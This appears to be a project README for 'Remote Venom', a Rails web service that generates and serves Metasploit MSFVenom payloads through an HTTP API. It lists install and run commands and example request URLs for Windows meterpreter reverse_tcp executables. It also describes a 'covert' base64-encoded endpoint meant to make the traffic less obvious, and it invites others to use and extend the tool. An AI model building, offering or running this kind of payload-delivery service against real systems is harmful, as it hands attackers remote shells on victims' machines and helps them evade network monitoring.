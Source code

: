 # Remote Venom
---
This is a simple Rails app acting as a remote delivery system for MSFVenom payloads. 

To install:
```
cd api 
bundle install
rake db:create
rake db:schema:load
```

To run:
```
cd api && rails s -b 0.0.0.0
``

Every MSFVenom option has been parameterized, so calls to the API look like this:
```
http://192.168.1.100:3000/api/payloads?payload=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&format=exe
```
You can also use the shorthand syntax:
```
http://192.168.1.100:3000/api/payloads?p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe
```
For less obvious traffic, you can send the parameters as base64 (using the covert endpoint):
```
http://192.168.1.100:3000/a?b=cD13aW5kb3dzL21ldGVycHJldGVyL3JldmVyc2VfdGNwJmxob3N0PUhPU1QmbHBvcnQ9UE9SVCZmPWV4ZQo=
# example encoded payload is 'p=windows/meterpreter/reverse_tcp&lhost=HOST&lport=PORT&f=exe'
``
To list all payloads:
```
http://192.168.1.100:3000/api/payloads
```

Feel free to use and modify, or contribute directly to the project. Merge requests welcome!
